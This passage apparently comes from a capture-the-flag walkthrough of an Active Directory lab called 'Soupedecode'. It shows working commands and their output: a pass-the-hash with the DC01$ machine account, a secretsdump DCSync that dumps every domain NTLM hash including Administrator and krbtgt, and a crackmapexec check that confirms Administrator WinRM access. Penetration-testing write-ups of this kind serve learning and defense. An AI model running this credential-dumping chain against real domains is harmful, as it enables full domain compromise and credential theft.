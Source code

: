 ```
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\kleo2:b9dd4c7c72ad5d5dacbff4590a8426cc STATUS_LOGON_FAILURE 
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\eyara3:b9dd4c7c72ad5d5dacbff4590a8426cc STATUS_LOGON_FAILURE
..................<REST_OF_USERS>.........................................
```
The `hash` belongs to the user `DC01$`.

With this `hash`, we can once again use Impacket’s `secretsdump.py`, but this time to dump the `domain hashes`.

```bash
impacket-secretsdump 'SOUPEDECODE.LOCAL/DC01$@10.0.4.18' -hashes 'aad3b435b51404eeaad3b435b51404ee:b9dd4c7c72ad5d5dacbff4590a8426cc'
```

Info:
```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8982babd4da89d33210779a6c5b078bd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fb9d84e61e78c26063aced3bf9398ef0:::
soupedecode.local\bmark0:1103:aad3b435b51404eeaad3b435b51404ee:d72c66e955a6dc0fe5e76d205a630b15:::
soupedecode.local\otara1:1104:aad3b435b51404eeaad3b435b51404ee:ee98f16e3d56881411fbd2a67a5494c6:::
soupedecode.local\kleo2:1105:aad3b435b51404eeaad3b435b51404ee:bda63615bc51724865a0cd0b4fd9ec14:::
soupedecode.local\eyara3:1106:aad3b435b51404eeaad3b435b51404ee:68e34c259878fd6a31c85cbea32ac671:::
soupedecode.local\pquinn4:1107:aad3b435b51404eeaad3b435b51404ee:92cdedd79a2fe7cbc8c55826b0ff2d54:::
soupedecode.local\jharper5:1108:aad3b435b51404eeaad3b435b51404ee:800f9c9d3e4654d9bd590fc4296adf01:::
..................<REST_OF_USERS>.........................................
```

We successfully obtain the `domain password hashes` of all system users, including the `Administrator` account.

We then verify that the `Administrator hash` allows `WinRM` authentication. 

```bash
crackmapexec winrm 10.0.4.18 -u Administrator -H '8982babd4da89d33210779a6c5b078bd' 
```

Info:
```
SMB         10.0.4.18       5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:SOUPEDECODE.LOCAL)
HTTP        10.0.4.18       5985   DC01             [*] http://10.0.4.18:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.0.4.18       5985   DC01             [+] SOUPEDECODE.LOCAL\Administrator:8982babd4da89d33210779a6c5b078bd (Pwn3d!)
```

